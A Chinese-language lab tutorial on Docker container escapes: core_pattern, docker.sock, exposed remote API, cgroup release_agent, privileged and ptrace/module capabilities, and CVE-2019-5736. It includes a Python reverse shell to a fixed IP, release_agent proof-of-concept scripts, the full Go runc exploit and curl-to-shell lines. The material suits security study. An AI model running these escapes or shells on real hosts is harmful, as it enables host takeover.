Docker面临的风险
目录
我是否在Docker中？
- 检查/.dockerenv文件是否存在；
- 检查/proc/1/cgroup内是否包含"docker"等字符串；
- 检查是否存在container环境变量。
逃逸
从Docker逃逸到宿主机
挂载宿主机procfs逃逸
procfs系统说白了就是/proc目录，它是一个伪文件系统，用于反映各个进程的状态等信息。
当主机崩溃时，/proc/sys/kernel/core_pattern 会将崩溃时内存转储数据进行导出。
自2.6.19内核版本开始，支持了新语法，我们可以往/proc/sys/kernel/core_pattern文件末尾添加管道符|然后写入命令，当主机崩溃时便会执行管道符后面的命令。
如果宿主机的procfs系统挂载到了docker里面，那么我们就可以对宿主机的/proc/sys/kernel/core_pattern任意写入，写入恶意命令后再想办法引起报错崩溃，这样宿主机便会执行我们写入到core_pattern里面的命令了。
环境搭建：把宿主机/proc挂载到docker /host/proc
docker run -it --rm --mount type=bind,source=/proc,target=/host/proc kpli0rn/ubuntu:18.04 bash
怎么检测？遍历所有文件，如果有两个及以上core_pattern文件出现就很可疑了。
find / -name core_pattern

利用
找到当前docker在宿主机下的路径
`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

安装vim和gcc分别用于编辑exp和编译造成崩溃的C文件
vim /tmp/.exp.py
#!/usr/bin/python3
import os
import pty
import socket
lhost = "172.16.214.1"
lport = 4444
def main():
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((lhost, lport))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.putenv("HISTFILE", '/dev/null')
pty.spawn("/bin/bash")
# os.remove('/tmp/.t.py')
s.close()
if __name__ == "__main__":
main()
然后给python文件加上可执行权限
chmod 777 /tmp/.exp.py
向挂载的core_pattern末尾写入exp路径
echo -e "|/var/lib/docker/overlay2/20c27c85c2556a753bb6e9afc68dc82a3ab4d96e4acc8adf443491d1cf0bd526/diff/tmp/.exp.py /r core" > /host/proc/sys/kernel/core_pattern
运行一个造成崩溃的c程序
vim t.c
#include<stdio.h>
int main(void) {
int *a = NULL;
*a = 1;
return 0;
}
gcc t.c -o t
./t
就会收获宿主机弹回来的shell
利用docker.sock造成逃逸
Docker Socket 用于宿主机与docker容器通信（查询信息、下发命令等） 也就是说我们执行docker指令时，是通过Docker Socket作为中间人转发的。

如果容器里挂载了宿主机的docker.sock文件，那么就相当于我们拿到了宿主机的docker指令执行权，可以在宿主机上执行任意docker指令。只需我们直接创建一个特权容器就能轻松逃逸。
环境搭建
docker run -itd --name with_docker_sock -v /var/run/docker.sock:/var/run/docker.sock kpli0rn/ubuntu:18.04
docker exec -it with_docker_sock /bin/bash
安装docker命令行
apt-get update
apt-get install curl
curl -fsSL https://get.docker.com/ | sh
检测：查看有没有叫docker.sock的文件

利用
把宿主机根目录挂载到新容器的/host目录下。并进入新容器的shell里
docker run -it -v /:/host ubuntu /bin/bash

定时任务啥的弹个shell回来就逃逸了
远程API未授权造成逃逸
docker remote api 可以直接通过http请求执行 docker 命令。 如果这个api开放在了公网，那么我们就可以直接利用这个api操作docker。
环境搭建
systemctl stop docker //先把docker关了
dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375 //这个端口并不一定是2375，根据实际情况判断
出现404则说明存在未授权

利用
列出容器信息
curl http://<target>:2375/containers/json
查看容器
docker -H tcp://<target>:2375 ps -a
新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt目录下。
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash


内核漏洞
用exp硬造就完事了
利用lxcfs
lxcfs 是linux下一个用于虚拟化容器的工具。
在默认情况下容器会挂在宿主机上的/proc目录,其包含如：meminfo, cpuinfo，stat， uptime等资源信息，可能会带来一些不必要的错误或者不便。
而lxcfs为容器提供了下列procfs文件,比如把宿主机的 /var/lib/lxcfs/proc/memoinfo 文件挂载到Docker容器的/proc/meminfo位置后，容器读取相应内容时会通过lxcfs获取正确的约束设定，实现容器内/proc与物理机隔离。
/proc/cpuinfo
/proc/diskstats
/proc/meminfo
/proc/stat
/proc/swaps
/proc/uptime
环境搭建：
apt install lxcfs
或者
git clone https://github.com/lxc/lxcfs.git
lxcfs /var/lib/lxcfs
docker run -it -v /var/lib/lxcfs/:/test/:rw kpli0rn/ubuntu:18.04 /bin/bash
此时容器里的/test目录会有这些文件（挂载自宿主机）

检测：是否启用了lxcfs
cat /proc/1/mountinfo | grep lxcfs

利用
无奈环境搭不上，就简单说说咋利用的吧https://www.ai2news.com/blog/1441724/
首先因为lxcfs/cgroup被挂载进了容器，并且容器对挂在进来的lxcfs/cgroup有读写权，那么可以先修改当前已控制容器对应的devices.allow为a来设置容器允许访问所有类型设备
echo a > /test/lxcfs/cgroup/devices/docker/some_id/devices.allow
又因为/etc/host是默认挂载进容器的，我们可以通过如下命令拿到宿主机设备对应的ID号
cat /proc/self/mountinfo |grep etc

然后使用如下指令，配合刚刚拿到的宿主机对应的id号，就能读写宿主机文件了
mknod test b 252 1 //创建基于宿主机的块设备
debugfs -w test //对刚刚创建的块设备进行调试，也就是能进入宿主机文件系统了
这个利用方式 并不只对lxcfs有效，如果我们能读写cgroup文件，理论上都能这么逃逸
privileged参数特权容器逃逸
环境搭建
docker run --rm --privileged=true -it kpli0rn/ubuntu:18.04
然后我们就进入了特权容器内部。
它有如下特权
- 禁用Seccomp和AppArmor等安全机制
- Capabilities加满
那么怎么查看当前容器是否是特权容器呢？我们可以查看当前容器init进程（/proc/1）的capabilities属性中是否启用了 capability sets 来判断。
capability sets 默认是不启动的，而特权容器的init进程会启用。
我们可以用如下指令来检测capability sets 是否在init启用从而判断是否是高权限容器
cat /proc/1/status | grep Cap

上图便是特权容器指令执行的结果。

利用:目录挂载
通过fdisk指令查看挂载磁盘的情况

可以发现我们可以宿主机的磁盘在docker内部显示为文件 /dev/vda1. 我们可以将其挂载到我们docker内部的磁盘中去

然后我们就可以向挂载进来的宿主磁盘中写入定时任务来反弹shell了
利用:notify_on_release
Cgroup
需要先了解一下linux下的cgroup机制
cgroup机制是2.6内核由google公司主导引入的，用于实现linux内核资源虚拟化。docker所用到的资源隔离技术便是cgroup。
cgroup有四个比较重要的概念：
- 子系统：一个子系统就是一个资源的控制器，比如CPU子系统就是控制CPU的一个控制器。
- 层级：一个子系统必须要附加（attach）到一个层级上才能起作用。使用
mkdir -p /cgroup/name && mount -t cgroup -o subsystems name /cgroup/name命令创建一个层级，并把该层级挂载到目录。 - 控制组群：进程可以加入到某个控制组群，也可以迁移到另一个控制组群。控制组指明了内部资源的配额限制，即上限。
- 任务：一个任务对应着系统的一个进程。控制组群所对应的目录中有一个
tasks文件，将进程ID写进该文件，该进程就会受到该控制组群的限制。
Cgroup有几个重要的文件
/sys/fs/cgroup 有所有子系统的信息

/sys/fs/cgroup/<subsystem_name>/cgroup.procs 记录该子系统任务进程PID
/sys/fs/cgroup/<subsystem_name>/tasks 约等于cgroup.procs
/sys/fs/cgroup/<subsystem_name>/notify_on_release 只有0或1两个值
当为1时，cgroup下所有任务结束后，内核就会以root权限运行/sys/fs/cgroup/<subsystem_name>/release_agent 文件中对应路径的文件
notify_on_release机制逃逸
通过上面对Cgroup的叙述，可以发现notify_on_release 这个文件很特殊，当它为1时，在cgroup结束所有任务后内核会以root权限运行release_agent文件中的对应路径的文件。
所以如果我们对cgroup可编辑，且获得了当前容器在宿主机中的绝对路径，且拥有cap_sys_admin权限那么就可以完成逃逸。
具体做法为，新建一个子cgroup，将其notify_on_release 设为1，release_agent文件中的路径设为容器中的恶意脚本文件在宿主机的绝对路径。然后清空cgroup.procs或tasks 文件，使恶意脚本文件被宿主机以root权限运行。
环境搭建：
--security-opt apparmor=unconfined 是关闭内核安全模块参数，这个模块如果打开有可能会导致逃逸失败
docker run -it --cap-add='SYS_ADMIN' --security-opt apparmor=unconfined kpli0rn/ubuntu:18.04 bash
检测：
cat /proc/1/status | grep Cap


创建子cgroup并修改notify_on_release
mkdir /tmp/aa && mount -t cgroup -o rdma cgroup /tmp/aa &&echo 1 > /tmp/aa/notify_on_release
获取在宿主机的绝对路径
sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab
然后写入子cgroup的release_agent文件，指向一个恶意的脚本文件，并给予可执行权
echo '#!/bin/sh' > /tmp/exp
echo "mkdir /hack_in" > /tmp/exp
d=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $d/tmp/exp > /tmp/aa/release_agent
chmod 777 /tmp/exp
然后清空子cgroup目录下的cgroup.procs或tasks文件
sh -c "echo \$\$ > /tmp/aa/cgroup.procs"
检测POC
#!/bin/bash
set -uex
mkdir /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
sleep 2
cat "/output"
利用：重写devices.allow
也就是刚刚提到了lxcfs里用到的方法。只不过我们需要手动把cgroup/devices挂载进来
mkdir /tmp/dev
mount -t cgroup -o devices devices /tmp/dev/
然后便是修改devices.allow

然后便是找宿主机node号，并debugfs调试

SYS_PTRACE 权限逃逸
SYS_PTRACE是启动docker容器时附加的一个权限参数，它起到一个调试器的作用。以高权限参数启动时默认带有该权限。
docker --cap-add=SYS_PTRACE 或 Kubernetes PODS 设置 securityContext.capabilities 为 SYS_PTRACE 配置等把 SYS_PTRACE capabilities权限赋予容器的情况，都可能导致容器逃逸。 ........... 这个场景很常见，因为无论是不是线上环境，业务进行灾难重试和程序调试都是没办法避免的，所以容器经常被设置 ptrace 权限。 ————腾讯蓝军
因为有调试器权限，那么就意味着我们可以对其他进程进行调试，同时也就意味着可以对其他进程进行进程注入。
但是由于namespace的存在造成了进程隔离，无法直接访问到宿主机进程pid，因此在容器启动时需要附加--pid=host打破进程隔离
同时apparmor也可能会对此造成一定影响，实验时可以将其关闭
环境搭建
docker run --pid=host --cap-add=SYS_PTRACE --rm -it kpli0rn/ubuntu:18.04
检测


然后用ps指令找到宿主机进程PID
ps auxx | grep root

然后使用exp进行进程注入：https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c
需要自己编译并且修改此处的payload。改成msf或者cs的都行

cap_sys_module 权限逃逸
这个特权表示能够加载内核模块，那么我们只需要构造一个执行恶意命令的内核模块给容器加载就行了。原理就是这样。
环境搭建
docker run --cap-add=SYS_MODULE --rm -it kpli0rn/ubuntu:18.04
具体复现：https://blog.jus4fun.xyz/article/109/
docker runc 逃逸 CVE-2019-5736
ref:https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/ 推荐阅读
docker version <=18.09.2 RunC version <=1.0-rc6
环境搭建,ubuntu下用metarget，官方推荐版本为Ubuntu 16.04 or 18.04
metarget cnv install cve-2019-5736
或者脚本
curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh
原理
runc是Docker的容器运行时，负责Dokcer容器的容器生成和运行，举个例子 docker run -it ubuntu bash 容器的bash交互界面就是由runc启动的。runc一般在宿主机上以root权限跑着。 同时在linux中存在/proc/pid/exe 这个东西，指向某进程的源程序，如果是/proc/self/exe 就是指向当前进程的源程序。 我们可以通过劫持，将容器的bash内容更改为#!/proc/self/exe，即指向当前进程源程序，这样下次执行容器docker run -it ubuntu bash时就会执行runc本身。 runc在容器中是可以被找到的，如果我们修改了runc文件本身的内容，如修改为反弹shell，那么下次执行docker run -it ubuntu bash时就会自动反弹一个shell回来。
利用
exp：https://github.com/Frichetten/CVE-2019-5736-PoC
注释引用自https://ble55ing.github.io/2020/03/19/docker-20195736/
package main
// Implementation of CVE-2019-5736
// Created with help from @singe, @_cablethief, and @feexd.
// This commit also helped a ton to understand the vuln
// https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d
import (
"fmt"
"io/ioutil"
"os"
"strconv"
"strings"
)
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n mkdir /hack_in &\n"
func main() {
//首先来看看能不能打开/bin/sh，即有root权限就成
fd, err := os.Create("/bin/sh")
if err != nil {
fmt.Println(err)
return
}
//然后将其覆盖为#!/proc/self/exe
fmt.Fprintln(fd, "#!/proc/self/exe")
err = fd.Close()
if err != nil {
fmt.Println(err)
return
}
fmt.Println("[+] Overwritten /bin/sh successfully")
// 循环遍历/proc里的文件，直到找到runc是哪个进程
var found int
for found == 0 {
pids, err := ioutil.ReadDir("/proc")
if err != nil {
fmt.Println(err)
return
}
for _, f := range pids {
fbytes, _ := ioutil.ReadFile("/proc/" + f.Name() + "/cmdline")
fstring := string(fbytes)
if strings.Contains(fstring, "runc") {
fmt.Println("[+] Found the PID:", f.Name())
found, err = strconv.Atoi(f.Name())
if err != nil {
fmt.Println(err)
return
}
}
}
}
// 循环去读这个/proc/pid/exe，先拿到一个该文件的fd，该fd就指向了runc程序的位置
var handleFd = -1
for handleFd == -1 {
// Note, you do not need to use the O_PATH flag for the exploit to work.
handle, _ := os.OpenFile("/proc/"+strconv.Itoa(found)+"/exe", os.O_RDONLY, 0777)
if int(handle.Fd()) > 0 {
handleFd = int(handle.Fd())
}
}
fmt.Println("[+] Successfully got the file handle")
// 然后不断的去尝试写这个指向的文件，一开始由于runc会先占用着，写不进去，直到runc的占用解除了，就立即
for {
writeHandle, _ := os.OpenFile("/proc/self/fd/"+strconv.Itoa(handleFd), os.O_WRONLY|os.O_TRUNC, 0700)
if int(writeHandle.Fd()) > 0 {
fmt.Println("[+] Successfully got write handle", writeHandle)
writeHandle.Write([]byte(payload))
return
}
}
}
用go打包
go build a.go
模拟黑客把二进制文件传上去，并给予可执行权
docker cp ./a 1f615cc4c464:/tmp
chmod 777 /tmp/a
执行exp

然后切个窗口，再执行一下docker exec -it 1f615cc4c464 /bin/sh
可以发现恶意指令（向根目录写入hack_in文件夹）被成功执行
（这里我换了个环境）

逃逸总结
引用自腾讯蓝军：
以目标“获取宿主机上的配置文件”为例，以下几种逃逸手法在容易在防御团队中暴露的概率从大到小，排序如下(部分典型手法举例，不同的EDR情况不同)：
- mount /etc + write crontab
- mount /root/.ssh + write authorized_keys
- old CVE/vulnerability exploit
- write cgroup notify_on_release
- write procfs core_pattern
- volumeMounts: / + chroot
- remount and rewrite cgroup
- create ptrace cap container
- websocket/sock shell + volumeMounts: /path